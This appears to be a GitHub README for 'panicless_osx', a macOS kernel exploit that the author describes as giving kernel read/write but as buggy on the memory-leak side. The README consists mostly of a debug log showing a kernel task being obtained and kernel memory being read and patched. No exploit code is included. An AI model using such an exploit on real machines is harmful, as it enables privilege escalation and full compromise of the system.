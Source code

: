 # panicless_osx
This exploit is working with r/w privilige exc. but needs fix on reading mem/leak side due its abit buggy.

## debug
`[panicless_osx] lets move in the dangly sketchy exploit\n
<br />
[panicless_osx] getting kernel task.\n
<br />
[panicless_osx] writing argument to dlopen.\n
<br />
[+] done!
<br />
[panicless_osx] exploring fake kernel_task abilities
<br />
[exploit] kernel_task (os/kern) successful
<br />
[+] kernel_task -> 0x1048835
<br />
[+] (read/kern) orig where:0x1056768 -> val 16
<br />
[+] (read/kern) patched where:0x1056768 -> val -272633096
<br />
[+] (read/kern) orig where:0x8192 -> val -272633088
<br />
[+] (read/kern) patched where:0x8192 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x4919 ->
<br />
info: nil
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x9015 ->
<br />
info: nil
<br />
[panicless_osx] fun part here (lets have some fun?)
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 8
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16778272 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) orig where:0x13443 -> val 16
<br />
[+] (read/kern) patched where:0x13443 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
[*] wefun -> 0x16
<br />
[*] wefun_pac -> 0x16777215
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_orig -> 16
<br />
[+] (read/kern) orig where:0x16777231 -> val 16
<br />
[+] (read/kern) patched where:0x16777231 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_patched -> 16
<br />
[panicless_osx] ADD YOUR STUFF HERE
<br />
Program ended with exit code: 0
`
